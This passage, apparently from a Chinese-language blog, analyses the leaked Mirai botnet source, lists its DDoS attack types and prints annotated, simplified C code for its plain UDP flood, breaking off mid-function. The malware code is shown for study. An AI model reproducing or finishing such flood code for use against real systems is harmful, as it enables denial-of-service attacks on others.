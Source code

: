 ![](https://i.imgur.com/FjhUyBr.png)

了解Mirai的主要组成和结构之后，我们在来看看他的[源码](https://github.com/jgamblin/Mirai-Source-Code)。

DDoS攻击中我认为最重要的两部分，一是Mirai的DDoS攻击部分代码，二是扫描和感染漏洞机器的代码。而本文主要分析DDoS攻击部分代码，至于其他部分，有兴趣的可以看看这篇论文（[DDoS-Capable IoT Malwares: Comparative Analysis and Mirai Investigation](https://www.hindawi.com/journals/scn/2018/7178164/)，里面有详细的源码分析和介绍。

先看看DDoS攻击部分，这块代码主要在mirai/bot下面，通过attack_xxx.c的形式命名。可以看到Mirai主要有4大类攻击方式, 每种类别里又有好几种攻击方式：
1. udp(attack_udp.c)
   * attack_udp_generic (实现稍微复杂点的udp flood，但是更加灵活)
   * attack_udp_vse   （vse指的是valve source engine,主要是针对游戏服务器的攻击）
   * attack_udp_dns   （）
   * attack_udp_plain (最简单的udp flood, pps比generic的更高)
2. tcp(attack_tcp.c)
   * attack_tcp_syn (上文提到过)
   * attack_tcp_ack  ([Everything About TCP ACK Flood](http://blog.ddos-guard.ir/everything-about-tcp-ack-flood/))
   * attack_tcp_stomp ([How Mirai Uses STOMP Protocol to Launch DDoS Attacks](https://www.imperva.com/blog/mirai-stomp-protocol-ddos/))
3. gre(attack_gre.c)
   * attack_gre_eth ([GRE Tunnel for Humans: Making Sense of GRE](https://www.imperva.com/blog/what-is-gre-tunnel/?utm_campaign=Incapsula-moved))
   * attack_gre_ip (GRE flood)
4. app(attack_app.c)
   * attack_app_proxy（没有实现）
   * attack_app_http
   * attack_app_cfnull

因为篇幅问题，这里只挑选udp中最简单的攻击attack_udp_plain进行分析（代码经过简化，去掉debug部分，方便阅读）：
```
void attack_udp_plain(uint8_t targs_len, struct attack_target *targs, uint8_t opts_len, struct attack_option *opts)
{
    int i;
    char **pkts = calloc(targs_len, sizeof (char *));
    int *fds = calloc(targs_len, sizeof (int));
    port_t dport = attack_get_opt_int(opts_len, opts, ATK_OPT_DPORT, 0xffff);
    port_t sport = attack_get_opt_int(opts_len, opts, ATK_OPT_SPORT, 0xffff);
    uint16_t data_len = attack_get_opt_int(opts_len, opts, ATK_OPT_PAYLOAD_SIZE, 512);
    BOOL data_rand = attack_get_opt_int(opts_len, opts, ATK_OPT_PAYLOAD_RAND, TRUE);
    struct sockaddr_in bind_addr = {0};

    // 没有指定的话随机一个source端口
    if (sport == 0xffff)
    {
        sport = rand_next();
    } else {
        sport = htons(sport);
    }

    // 构造packets
    for (i = 0; i < targs_len; i++)
    {
        struct iphdr *iph;
        struct udphdr *udph;
        char *data;

        // 为每个packet分配 65535 × 4 字节空间
        pkts[i] = calloc(65535, sizeof (char));

        // 没有制定的话随机一个dest端口
        if (dport == 0xffff)
            targs[i].sock_addr.sin_port = rand_next();
        else
```
